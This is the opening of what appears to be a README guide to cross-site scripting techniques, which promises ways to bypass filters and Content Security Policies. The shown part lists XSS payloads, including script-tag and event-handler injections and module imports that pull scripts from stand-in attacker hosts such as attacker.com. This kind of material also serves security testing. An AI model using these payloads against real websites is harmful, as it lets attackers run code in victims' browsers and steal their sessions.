 
## Introduction

Cross-Site Scripting (XSS) vulnerabilities occur when untrusted user input is executed as code in a web browser. This project details **advanced techniques** to bypass security measures such as blacklists, browser filters, and even **Content Security Policies (CSPs)**. It covers DOM-based XSS, content sniffing, and provides tips for persistent attacks.

**2025 Update:** This guide now includes cutting-edge attack vectors targeting modern web technologies including WebAssembly, Trusted Types, AI-powered applications, and advanced browser APIs that have emerged as new attack surfaces.

---

## Fundamentals of XSS

Cross-Site Scripting (XSS) exploits browser vulnerabilities and insecure handling of user data. Some typical methods of executing XSS attacks are:

### Script Tag Injection

Injecting malicious JavaScript code using `<script>` tags:

```html
<script>alert('XSS');</script>
```

Or by sourcing external scripts:

```html
<script src=//example.com/malicious.js></script>
```

**2025 Enhancement - ES6 Modules:**

```html
<script type="module">
  import('data:text/javascript,alert(1)');
</script>
```

```html
<script type="module">
  import('//attacker.com/payload.js');
</script>
```

### Event Handlers

Attackers can trigger JavaScript via event handlers, such as `onload`, `onerror`, or `onfocus`.

```html
<svg onload=alert(1)></svg>
<img src=x onerror=alert(1)>
```

**2025 New Event Handlers:**
